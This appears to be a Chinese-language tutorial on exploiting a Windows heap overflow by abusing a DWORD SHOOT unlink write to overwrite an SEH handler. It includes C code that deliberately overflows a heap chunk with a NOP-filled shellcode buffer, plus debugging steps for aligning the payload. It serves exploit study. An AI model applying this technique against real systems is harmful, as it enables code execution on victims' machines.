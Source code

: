 # Using SEH in heap overflow

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <windows.h>

char shellcode[] = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

DWORD MyExceptionhandler(void)
{
	ExitProcess(1);
}
int main()
{
	HLOCAL h1 = 0, h2 = 0;
	HANDLE hp;
	hp = HeapCreate(0, 0x1000, 0x10000);
    __asm int 3
	h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
	__asm int 3
	memcpy(h1, shellcode, 0x200);
	__asm int 3
	__try
	{
		h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
	}__except(MyExceptionhandler()){}
	return 0;
}
```

在第一个断点，可以看到创建堆块后的初始状态，标记出来的是0x130个堆单位，一个堆单位8字节

![](Image/1.png)

然后来看看空表指针部分，那么在前面调试`堆溢出DWORD SHOOT`的时候有说过，如果申请的堆不可扩展那么这个堆是不会使用快表的，所以`0x00360688`这个位置就是尾块数据区的起始，其它指针都指向自身，等待分配

![](Image/2.png)

尾块的情况，除了指针指向了空表，其它都是空

![](Image/3.png)

去除第一个断点

看看分配后的情况，主要看尾块的指针，这时候尾块的起始位置已经变成了`0x00360178`（堆块信息在前八字节，下面统一跳过，以指针为标准）

![](Image/4.png)

这是分配的空间，接下来我们\x90填充看看

![](Image/5.png)

略微有一丝尴尬没有！！！！！！

0x00360750尾块乱掉了！！！！！！

没有关系，我们要做的就是能完整的填充shellcode，现在计算一下，先填满前面的空间，因为`DWORD SHOOT`是让flink写入blink指向的内存，也就是`*blink = flink;`

![](Image/6.png)

那么接下来就是找SEH链，就你了
```
0012FF74 004011A8 SE处理程序
```

然后开始填充shellcode，注意长度

记得最开始留点空间给`\x90`，直接填充shellcode是会出错的，然后记得修复堆块首的信息，大概是这样

![](Image/7.png)

然后去掉断点执行一下

![](Image/8.png)

妥妥的










